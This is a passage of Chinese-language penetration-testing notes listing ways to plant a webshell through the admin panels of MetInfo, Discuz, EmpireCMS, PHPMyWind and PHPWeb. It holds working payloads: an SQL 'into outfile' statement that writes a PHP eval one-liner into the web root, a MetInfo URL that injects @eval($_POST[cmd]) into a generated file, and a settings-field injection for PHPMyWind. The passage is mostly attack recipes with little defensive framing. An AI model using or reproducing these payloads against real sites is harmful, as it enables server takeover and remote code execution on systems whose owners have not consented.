 **9.metinfo**  
1.安装插件getshell  
  
2.安全》备份与恢复》数据库备份》下载》打开sql文件》合适的地方输入语句：  

```
select "<?php @eval($_POST[cmd]);>" into oufile 'c:/inetpub/wwwroot/8121/xx.php';
```

《重新压缩》删除之前备份文件》上传修改之后的数据库备份文件》导入：执行sql语句》生成shell  
  
3.<6.0,直接访问：  

```
192.168.1.10:8095/admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[cmd]);/*
```

在upload目录下生成index.php的一句话：  
连接：192.168.1.10/upload/index.php

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**10.discuz**  
管理后台：admin.php  
创始人管理后台：uc\_server/admin.php  
管理后台：  
1.站长，uccenter设置，插马，待复现。参考：  
https://paper.seebug.org/1144/#2-ucketdz  
  
**11.帝国cms**  
1.系统》数据表与系统模型》管理数据表》管理系统模型》导入系统模型》上传1.php.mod》会在当前目录下生成一句话co.php：  
连接：http://192.168.1.10:8111/e/admin/co.php  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2.帝国备份王getshell

12.phpmywind
------------

1.网站信息设置》附件设置，添加允许上传类型getshell  
2.网站信息设置》增加新变量  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

》提交》基本设置：1;@eval($\_POST\[a\])![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

》提交>连接：http://192.168.1.10:8112/admin/default.php  
新版本过滤分号无法连接：慎重插马

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

13.phpweb
---------

1.前台直接上传  
https://blog.csdn.net/weixin\_44508748/article/details/105671332

